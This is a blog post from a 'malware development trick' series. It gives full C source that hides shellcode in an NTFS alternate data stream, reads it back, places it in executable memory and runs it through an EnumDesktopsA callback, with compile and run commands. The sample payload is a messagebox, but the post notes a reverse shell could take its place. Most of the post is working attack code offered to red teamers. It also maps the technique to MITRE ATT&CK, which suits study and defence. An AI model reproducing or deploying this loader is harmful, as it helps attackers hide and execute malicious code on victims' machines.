 ```yaml
---
title:  "Malware development trick - part 35: Store payload in alternate data streams. Simple C++ example."
date:   2023-07-26 03:30:00 +0300
header:
  teaser: "/assets/images/105/2023-07-27_04-58.png"
categories:
  - malware
tags:
  - windows
  - malware
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!        

![hack](/assets/images/105/2023-07-27_04-58.png){:class="img-responsive"}      

Today, this post is the result of my own research on another popular malware development trick: store malicious data in alternate data streams (ADS) and how adversaries use it for persistence.     

### alternate data streams

Alternate Data Streams allow for multiple data "streams" to be associated with a single filename, a capability that can be used to store metadata. While this feature was designed to support *Macintosh Hierarchical File System (HFS)* which uses resource forks to store icons and other information for a file, it can be and has been used for hiding data and malicious code.    

### practical example

Below is a simple example code of storing payload in ADS `hack.c`:      

```cpp
/*
hack.c
malware store data in alternate data streams
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/26/malware-tricks-35.html
*/
#include <windows.h>
#include <stdio.h>

int main() {
  // name of the file to which we'll attach the ADS
  char* filename = "C:\\temp\\meow.txt";

  // name of the ADS
  char* streamname = "hiddenstream";

  // full path including the ADS
  char fullpath[1024];
  sprintf(fullpath, "%s:%s", filename, streamname);

  // the data we're going to write to the ADS
  // meow-meow messagebox
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  printf("original payload: ");
  for (int i = 0; i < sizeof(my_payload); i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  // write data to the ADS
  HANDLE hFile = CreateFile(fullpath, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  printf(hFile == INVALID_HANDLE_VALUE ? "unable to open file!\n" : "successfully write payload data to the ADS\n");
  DWORD bw;
  WriteFile(hFile, my_payload, sizeof(my_payload) - 1, &bw, NULL);
  CloseHandle(hFile);

  // now read the data back
  hFile = CreateFile(fullpath, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  printf(hFile == INVALID_HANDLE_VALUE ? "unable to open file!\n" : "successfully read payload data from file\n");

  unsigned char data[sizeof(my_payload) - 1];
  DWORD br;
  ReadFile(hFile, data, sizeof(data), &br, NULL);
  CloseHandle(hFile);

  printf("read from file, payload:\n");
  for (int i = 0; i < sizeof(data); i++) {
    printf("%02x ", data[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, sizeof(data), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, data, sizeof(data));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

The logic is pretty simple. This code writes data to an ADS and then reads it back. Then execute payload data via [EnumDesktopsA](/tutorial/2022/06/27/malware-injection-20.html).      

As usually, I used `meow-meow` messagebox for simplicity:     

```cpp
unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";
```

This code creates an ADS named `hiddenstream` on the specified file and writes our payload data into it. It then reads the data back and prints it for checking correctness. In a real-world scenario, the data could be a malicious executable like reverse shell or another shellcode, which would need to be extracted to a temporary location and executed separately.       

### demo

Let's go to see this logic in action.      

Compile it:     

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![hack](/assets/images/105/2023-07-27_04-59.png){:class="img-responsive"}      

Then, move our test victim file `meow.txt` to `C:\temp\`:     

![hack](/assets/images/105/2023-07-27_23-22.png){:class="img-responsive"}      

And finally run:     

```powershell
.\hack.exe
```

![hack](/assets/images/105/2023-07-27_23-21.png){:class="img-responsive"}      

We can check alternate data streams with command:     

```powershell
Get-Item -Path C:\temp\meow.txt -Stream *
```

![hack](/assets/images/105/2023-07-27_23-24_1.png){:class="img-responsive"}      

![hack](/assets/images/105/2023-07-27_23-24.png){:class="img-responsive"}      

As you can see, everything is worked as expected! =^..^=    

Note that the Alternate Data Streams (ADS) feature is specific to `NTFS`, other file systems like `FAT32`, `exFAT`, `ext4` (used by Linux), etc., do not support this feature.      

This method of executing code is often used by [APT29](https://attack.mitre.org/groups/G0016) and [APT32](https://attack.mitre.org/groups/G0050), software like [PowerDuke](https://attack.mitre.org/software/S0139)       

I hope this post spreads awareness to the blue teamers of this interesting malware dev technique, and adds a weapon to the red teamers arsenal.      

[T1564.004 - Hide Artifacts: NTFS File Attributes](https://attack.mitre.org/techniques/T1564/004/)      
[APT29](https://attack.mitre.org/groups/G0016)     
[APT32](https://attack.mitre.org/groups/G0050)     
[malpedia: APT29](https://malpedia.caad.fkie.fraunhofer.de/actor/apt29)     
[malpedia: APT32](https://malpedia.caad.fkie.fraunhofer.de/actor/apt32)      
[PowerDuke](https://attack.mitre.org/software/S0139)      
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-07-26-malware-trick-35)           

> This is a practical case for educational purposes only.

Thanks for your time happy hacking and good bye!         
*PS. All drawings and screenshots are mine*       
